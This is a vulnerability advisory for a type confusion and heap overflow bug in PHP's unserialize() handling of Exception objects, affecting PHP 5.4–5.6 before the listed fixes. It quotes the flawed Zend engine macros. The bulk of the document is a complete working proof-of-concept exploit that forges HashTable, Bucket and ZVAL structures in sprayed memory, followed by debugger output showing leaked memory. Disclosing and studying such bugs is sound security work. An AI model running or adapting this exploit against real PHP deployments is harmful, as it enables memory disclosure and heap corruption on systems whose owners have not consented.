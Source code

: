 # Type Confusion Infoleak and Heap Overflow Vulnerability in unserialize() with exception
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.3 - Release Date: 2015.4.28
 
> A type confusion vulnerability was discovered in exception object's __toString()/getTraceAsString() method that can be abused for leaking arbitrary memory blocks or heap overflow.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.8  
Affected is PHP 5.5 < 5.5.24   
Affected is PHP 5.4 < 5.4.40

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
ZEND_METHOD(exception, getTraceAsString)
{
	zval *trace;
	char *res, **str, *s_tmp;
	int res_len = 0, *len = &res_len, num = 0;

	DEFAULT_0_PARAMS;
	
	res = estrdup("");
	str = &res;

	trace = zend_read_property(default_exception_ce, getThis(), "trace", sizeof("trace")-1, 1 TSRMLS_CC);
	zend_hash_apply_with_arguments(Z_ARRVAL_P(trace) TSRMLS_CC, (apply_func_args_t)_build_trace_string, 3, str, len, &num);

	...
	
static int _build_trace_string(zval **frame TSRMLS_DC, int num_args, va_list args, zend_hash_key *hash_key) /* {{{ */
{
	char *s_tmp, **str;
	int *len, *num;
	long line;
	HashTable *ht = Z_ARRVAL_PP(frame);
	zval **file, **tmp;
	
	...
	
	TRACE_APPEND_KEY("class");
	TRACE_APPEND_KEY("type");
	TRACE_APPEND_KEY("function");
	
	...

#define TRACE_APPEND_KEY(key)                                                   \
	if (zend_hash_find(ht, key, sizeof(key), (void**)&tmp) == SUCCESS) {    \
		if (Z_TYPE_PP(tmp) != IS_STRING) {                              \
			zend_error(E_WARNING, "Value for %s is no string", key); \
			TRACE_APPEND_STR("[unknown]");                          \
		} else {                                                        \
			TRACE_APPEND_STRL(Z_STRVAL_PP(tmp), Z_STRLEN_PP(tmp));  \
		}                                                               \
	}
```

The Z_ARRVAL_P macro leads to pointing a fake ZVAL in memory via a fake HashTable and a fake Bucket. So we can supply a fake sring-type ZVAL, and lookup arbitrary memory address via the Z_STRVAL_PP macro,  causing a crash or an information leak.

```
#define TRACE_APPEND_STRL(val, vallen)                                   \
	{                                                                    \
		int l = vallen;                                                  \
		*str = (char*)erealloc(*str, *len + l + 1);                      \
		memcpy((*str) + *len, val, l);                                   \
		*len += l;                                                       \
	}
```

There is using signed integer arithmetic in erealloc(). The memcpy() function's third parameter is a unsiged integer. The vallen can be completely control and we can supply negative value via a fake string-type ZVAL. So we can assign a value to val which is larger than real allocated memory. The memcpy() will then copy more data than the heap-based buffers can hold, causing a heap-based buffer overflow.

Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.20.

```
<?php


ini_set("memory_limit", -1);

setup_memory();

$x = unserialize('O:9:"exception":1:{s:16:"'."\0".'Exception'."\0".'trace";s:'.strlen($hashtable).':"'.$hashtable.'";}');

echo $x, "\n";

function setup_memory()
{
	global $str, $hashtable;

	$base = 0x114000000 + 0x20;
	$bucket_addr = $base;
	$zval_delta = 0x100;
	$hashtable_delta = 0x200;
	$zval_addr = $base + $zval_delta;
	$hashtable_addr = $base + $hashtable_delta;

	$bucket  = "\x01\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= ptr2str($bucket_addr + 3*8);
	$bucket .= ptr2str($zval_addr);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
  
	$bucket .= ptr2str(zhash('class'));
	$bucket .= "\x06\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= ptr2str($bucket_addr + 3*8 + 9*8);
	$bucket .= ptr2str($zval_addr + 5*8 + 6);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str($zval_addr + 2*5*8 + 2*6);
	$bucket .= ptr2str($bucket_addr);
	$bucket .= ptr2str($bucket_addr + 9*8);

	$hashtable  = "\x00\x00\x00\x00";
	$hashtable .= "\x01\x00\x00\x00";
	$hashtable .= "\x03\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str($bucket_addr);
	$hashtable .= ptr2str($bucket_addr + 9*8);
	$hashtable .= ptr2str($bucket_addr + 18*8);
	$hashtable .= ptr2str(0);
	$hashtable .= "\x00";
	$hashtable .= "\x00";
  
	$zval = ptr2str($hashtable_addr);
	$zval .= ptr2str(0);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x04";
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
  
	$zval .= ptr2str(0x100352572);
	$zval .= ptr2str(0x16);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x06";
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
  
	$zval .= ptr2str(hexdec(bin2hex(strrev('class'))));
 
	$part = str_repeat("\x73", 4096);
	for ($j = 0; $j < strlen($bucket); $j++) {
		$part[$j] = $bucket[$j];
	}
	for ($j = 0; $j < strlen($hashtable); $j++) {
		$part[$j + $hashtable_delta] = $hashtable[$j];
	}
	for ($j = 0; $j < strlen($zval); $j++) {
		$part[$j + $zval_delta] = $zval[$j];
	}
	$str = str_repeat($part, 1024*1024*256/4096);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

function zhash($key)
{
	$hash = 5381;
	$key = $key;
	$len = strlen($key) + 1;
	
	for (; $len >= 8; $len -= 8) {
		for ($i = 0; $i < 8; $i++) {
			$hash = (($hash << 5) + $hash) + ord($key{$i});
        }
	}
	$key = substr($key, -$len);
	for ($i = 0; $i < $len; $i++) {
		$hash = (($hash << 5) + $hash) + ord($key{$i});
	}
	return $hash;
}

?>
```

Test the PoC on the command line, then output some memory blocks:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run tcpoc.php
Process 1825 launched: '/usr/bin/php' (x86_64)
exception 'Exception' in tcpoc.php:7
Stack trace:
#0 [internal function]: UH??AWAVSPI??I??H????()
#1 {main}
Process 1825 exited with status = 0 (0x00000000) 
```
